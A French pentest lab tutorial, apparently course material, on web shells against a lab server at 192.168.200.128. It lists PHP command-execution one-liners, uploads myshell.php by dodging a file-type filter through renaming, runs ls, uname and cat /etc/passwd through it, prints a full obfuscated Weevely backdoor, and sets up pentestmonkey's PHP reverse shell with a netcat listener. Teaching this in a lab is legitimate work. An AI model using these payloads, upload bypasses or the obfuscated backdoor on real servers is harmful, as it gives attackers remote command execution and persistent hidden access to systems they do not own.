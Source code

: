 # 5. Web Shell

Un **code encoquillé** \(en Anglais web shell\) est une interface de type shell Web malveillante qui permet un accès et un contrôle à distance à un serveur Web en permettant l'exécution de commandes arbitraires.

```text
# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

Maintenant que nous connaissons le mot de passe de l'admin nous pouvons nous connecter à l'interface de management des images du site pour y déposer un script php.

![](https://lh5.googleusercontent.com/QV2Q2-R_heHH89G7BglUyIEq3FvWoSzDAMS4swWOMcMQh6NWVTlaP5BhNOOH7wCVMvlZr_2Sm7ZZLiIV2roOdqBmMlUX1Sq9EpIswMf0H6mo_2GZ3GLY7HUos8EGNbPkLy-TZRvF)

![](https://lh5.googleusercontent.com/qcwb1xbur2PRCIBoOMwGg7vs1qrGdNgiu8EieNASoqzRaTmkQ-kwKx-Mv143SPlUe9186jd4UdUJiubwoEbEJVdSpsulNnT1dW4EaJQsk3sSGx09UicdPNV6n8jE8s8hoRwmvqvv)

Création d'un script **myshell.php** permettant d'exécuter des commande shell sur une machine.

```text
<?php
  system($_GET['cmd']);
?>  
```

Essayons de télécharger le script **myshell.php** sur le serveur en passant l'interface de management des images.

![](https://lh4.googleusercontent.com/rgVWBHSZt8yig0Su8vLFcMW-5wmFyoLLsdnLLUSC3Rwrtg_-XVkI_OT5bu14-ds4OmdlQh9KNevseWuiYq7yTL63qO79A8pH1NYo6c0tpMqRYssEiVjquODhV8_9ivwMchgOYHC8)

{% hint style="info" %}
Le site n'autorise pas le téléchargement de fichier PHP
{% endhint %}

![](https://lh5.googleusercontent.com/ORAUqtYxLgdwGfNtoTX0OVtH1MtT40X47LCXtGoId6nBVHz7ThSYE_pmtKDUgZnsdXuXMsrpAePj5IWXCn8HOzUq7fvnJWPPe1AI_siYQ-vD02OSx7_B-9qFjJ_oXr64s5cgkDH_)

Nous pouvons essayer de contourner cette sécurité en renommant le fichier \(Linux est sensible à la case\)

![](https://lh5.googleusercontent.com/iGYURs7TdRw3rVhKQPuQx0cfTvA-BjhOARy98QRWKsN_QXCPSVvjQis1b-1xh9zJcXel1kCAXOc9TpdF0fXG7K0wyjaBtR88c_y3yKmAA9Okr_ecxm6IdTuepnQPiZAR8qdx-N93)

![](https://lh5.googleusercontent.com/zIgUlwS4UjqVbWLiE2MSxk22Sif80IJ6res4rLxuOafrW6lEAPsie0yLdFnJAwhlPUQFMcuFUBBIW7pzvzQhnc9jhXCf7j7KXsH_zuF6b1Wn4bRkQiqDJdNvHsYOC6h0bY6ekwP3)

![](https://lh6.googleusercontent.com/Biz1nU852Rdfw5OwB4YxzmlAl9-lncqaytFJu3sSjx7AWYwD3w5SzPxSPburaItJW8YUTwIuKeDEHIX9lrNDrF2Z4a-TJeiRc05HveXdtRrFD90pd0fUFxr0BatPyKnI4OrkhYud)

Le script PHP **myshell.php** est à présent sur le serveur. En étudiant rapidement le code source de la page on arrive facilement à trouver le chemin pour pouvoir l'exécuter.

![](https://lh3.googleusercontent.com/S8mi83S4QgPCocfjdIA3Srl8dYR99-rTkJj3ghJTK4SNVr7ij5k3NrKU2R_joKNdvXis0fU4vv7BN8mr-r2P5adaED1V5jy6YZ-qLRyi5RPo9gyReK412_Q-Fy8E-ku519qTbsnL)

Nous pouvons tester a présent plusieurs combinaisons d'URL pour observer sont fonctionnent sur le serveur

[http://192.168.200.128/admin/uploads/myshell.PHP](http://192.168.200.128/admin/uploads/myshell.PHP)

![](https://lh3.googleusercontent.com/LfGQytEAlBk25ObT-OjAYwJ9h-QKghm_x5hLCRkPj1mpi8XO2EE4uEX2WxabruBGJYsz62iiDGPHSDybTr7wRmfgfUA5CeoODv8Q41RIM-lKc0aEKbKy--85Og7JXTz-1mWiFkAj)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls

)

![](https://lh5.googleusercontent.com/Q6zAe_Z3bGPJfRu4i5gj5ifycZAXWMzyBd_ezdxuA8wJLhsALAgPj_e7V9tOnBT3L7q6Te6ejMD_gY738JJ-kFQHngsqDeBm9ubqQKm94W_ba5ovlA0_4eb0gUe-C9CqwvcvsazQ)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname -a](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname)

![](https://lh6.googleusercontent.com/fARo-VBvpcWJM13zkE7e22Zd7XNqaWNNZRthg9Q7EhAi3HWNJItCXMBGNvX66HsnMS-RMOdydjzE0XTd6a-C_eL8ekHrzO1kiLjne1-S4Ls3YvgOJn1vWShuyJ46zcjTW2JQekX1)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat /etc/passwd](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat)

![](https://lh6.googleusercontent.com/Owl-mHISJHWmBglIg_Gi68UhiVEVxuOY1jr8FuB9vLoDgZs4dRMNBFZ5YfjThjX8PoYWwIzAgy5TDSzsNr18heahSqiATo-7QuLU1lpUxHPXnsqWfbQSGcXNX-G6tjxMMH8USJAE)

### Weevely

**Weevely** est un petit **shell PHP** qui une fois placé sur un serveur, permet de l’administrer via un genre de console Telnet ou SSH. Cet outil peut être aussi bien utilisé dans le cas de pentest que pour de l’admin classique de serveur web. Pour cela, il suffit de générer un petit fichier PHP avec Weevly.

```text
$ sudo apt install weevely
$ weevely generate cpnv shell.php3
Backdoor file 'shell.php3' created with password 'cpnv'
```

```text
$ more shell.php3
```

```text
<?php
$R='(z<$j=0;(z<$j<$cz<&&$z<i<$l);$z<j++z<,$i++){$o.z<z<=$t{$i}^$k{$jz<};}}rz<z<eturn $oz<;}z<z<if (@p';
$N='$k="z<c2326efz<7";$kh=z<"7acfd247z<f2z<44";$z<z<kf="758f8ba3e10fz<";$p=z<"kbSg1X0z<FIMKz<h7LAH";';
$u='ntz<ents();@ob_end_z<clean();$rz<=@base6z<4_enz<coz<z<de(@x(@gzcompz<ress($o),$z<k));z<prz<intz<("$p$kh$r$kf");}';
$G='start()z<z<;@ez<val(@gzuz<ncompress(@z<x(@base6z<4_decoz<de($m[1z<]),z<$k))z<);$o=@ob_gz<et_z<coz<';
$f='fz<unctiz<z<on x($t,$k){$z<c=strz<lenz<($k);$lz<=sz<trlen($t)z<z<;$o="";foz<z<r($i=0;$i<$l;){for';
$a='reg_matcz<h("/$kh(.+)$z<kz<fz</",@file_get_z<contents("pz<hz<p://inz<put"),z<$m)==z<z<1) {@ob_';
$h=str_replace('d','','cdrdeate_dfddunctdion');
$y=str_replace('z<','',$N.$f.$R.$a.$G.$u);
$A=$h('',$y);$A();
?>
```

![](../.gitbook/assets/image%20%2827%29.png)

[http://192.168.200.128/admin/uploads/shell.php3](http://192.168.200.128/admin/uploads/shell.php3)

![](../.gitbook/assets/image%20%2824%29.png)

```text
$ weevely http://192.168.200.128/admin/uploads/shell.php3 cpnv
```

![](../.gitbook/assets/image%20%2829%29.png)

### **Reverse-shell**

Il convient de clarifier dans un premier temps l’intérêt d’utiliser un **reverse-shell** et ce que c’est. Un **reverse-shell** n’est autre qu’un shell \(terminal/console\) contrôlé à distance par un utilisateur. Un shell simple se traduit par une attente de connexion sur un port précis par la machine à contrôler. L’utilisateur va se connecter sur ce port et récupérer le terminal interactif. Le **reverse-shell** est l’inverse : c’est l’utilisateur qui place un processus en écoute sur un port précis, et c’est la machine à contrôler qui établit la connexion vers la machine de l’utilisateur pour lui transmettre le contrôle de son terminal.

{% hint style="info" %}
L’intérêt du **reverse-shell** ? Plus besoin de se soucier des IPs des machines distantes à contrôler puisque ce sont elles qui se connectent à l’utilisateur. De plus, comme la connexion est sortante à partir de la machine à contrôler, les pare-feux/routeurs bloquent rarement ce type de flux.
{% endhint %}

{% embed url="https://github.com/pentestmonkey/php-reverse-shell/archive/master.zip" %}

Renommez le fichier **php-reverse-shell.php** en fichier **php-reverse-shell.php3** pour contourner la protection interdisant le téléchargement des fichier PHP sur le serveur.

![](https://lh4.googleusercontent.com/Mec_lu-uhwQRZiSlQsIJrB38SL7DaKxxxp_75CEkMHNEChlnY79e7l3eaDXNqyIVV2nI-3b2n8MOliQbizs4O9OR6I4P5FCM31RpQcBMgyC5mZf8c03UcTckV3dy5SIIokiyHaBr)

Modifier le fichier **php-reverse-shell** en indiquant l'adresse IP du client cible et du port à joindre.

![](https://lh4.googleusercontent.com/KIcQ6UwZiyY5yCI3ZtjSr1MWQw2f1TmvPv7hTHk0tUqiTWZQf3ma034kNZw2_obp7kDoVcNolOOr3cj8G2OiSmTMjK4eJC_YVN5KblP7Oz2HGhKaDwU453Zd0kY3g2x4BhnAl57A)

![](https://lh6.googleusercontent.com/-Dh9r_UdrKJUehcm1hIu-nmZMfNaOwC8McMgaGuA3TshxSKr2PlnJrk2t3AmFb_VuiIKoxK8ZKmfvGeOQcs5ep810z6GLFa2QmECOvHerJQko_eGFO9mH7_LHvgePN97E6wuEaYM)

Sur le client cible, lancez une commande netcast en écoute sur le port 1234 défini dans le fichier **php-reverse-shell** 

![](https://lh4.googleusercontent.com/eCaUPjsbnuAzpWWgCbZN6CCPq07_GjCofPKIi6oDAPNv2tjM3nkwTXnckWr8YzdxHBmcFtnmLahvGjwtmWTLr7eI14HtNdV6OSrwkLvBfgBUj4LO2uzslbVeaI2VORnGpCxf7SsX)

{% embed url="http://192.168.200.128/admin/uploads/php-reverse-shell.php3" %}

{% hint style="info" %}
Une fois le lien validé, le script PHP **php-reverse-shell** s'exécute sur le serveur et le client à accès à un shell complet du serveur limité au droit du processus apache.
{% endhint %}

![](https://lh3.googleusercontent.com/zT3VsihBolt7pVvh7rAjeL0sanv0dd0Ypa9GQkkApBPb9DbLDEgGd5XQjqMOi3Ee6iqKFj9yz4U76utontER9cEgffh32ieQCdq-wtjebN4TY4MXW-GiAG8_fo9pWmj5o_-tcsJk)

![](https://lh5.googleusercontent.com/RnenGk2Ji9b40l5jZ1TPpyHyRDeCsB2qvlo9xiyI_sIvFYMJiH4xu96u4ivTPY6ioqA1oVIeSJLrBT0r8UkYHN_-rRUTvQlsNlBkTgZZAgM45P2-QC03epTKKPFdaG9cxKdSA4-Z)

## \*\*\*\*

